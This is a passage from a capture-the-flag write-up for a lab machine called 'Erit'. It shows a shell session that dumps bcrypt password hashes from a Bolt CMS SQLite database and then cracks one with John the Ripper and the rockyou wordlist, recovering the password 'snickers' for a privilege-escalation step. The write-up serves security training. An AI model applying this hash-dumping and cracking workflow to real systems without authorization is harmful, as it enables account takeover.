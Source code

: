 Answer: `www-data`

# [Task 6] Priv esc

In the `app/database` directory you will find the `bolt.db` SQLite3 database

1. Open database
2. This contains a lot of tables
3. We list the bolt user database
4. We see two users, the admin we already own, the other one is a wild one. We also see another IP address, `192.168.100.1` (note to self)
5. We copy the hash and save it to a file. Then run it through john the ripper, using the infamous `rockyou` wordlist
6. Using this password, we try to su as the user wileec. This works, and we should find our first flag.

## #6.1 - What is the users password?

Let's dump the password hash from the SQLite database:

~~~
www-data@Erit:/var/www/html/app/database$ sqlite3 bolt.db
sqlite3 bolt.db
SQLite version 3.16.2 2017-01-06 16:32:41
Enter ".help" for usage hints.
sqlite> .tables
.tables
bolt_authtoken          bolt_field_value        bolt_pages            
bolt_blocks             bolt_homepage           bolt_relations        
bolt_content_changelog  bolt_log                bolt_showcases        
bolt_cron               bolt_log_change         bolt_taxonomy         
bolt_entries            bolt_log_system         bolt_users            
sqlite> select * from bolt_users;
select * from bolt_users;
1|admin|$2y$10$cBJ/8TRox2vvqllttvK0geVLVdJ0ysIdV403eCZuPJxKqVDeWRxhu||0|a@a.com|2020-06-22 18:27:09|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]
sqlite> 
~~~

Now on our workstation, let's crack the password:

~~~
$ echo '$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.' > hash
$ /data/src/john/run/john hash --wordlist=/data/src/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snickers         (?)
1g 0:00:00:02 DONE (2020-06-22 21:20) 0.3533g/s 178.0p/s 178.0c/s 178.0C/s 12345678910..claire
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~
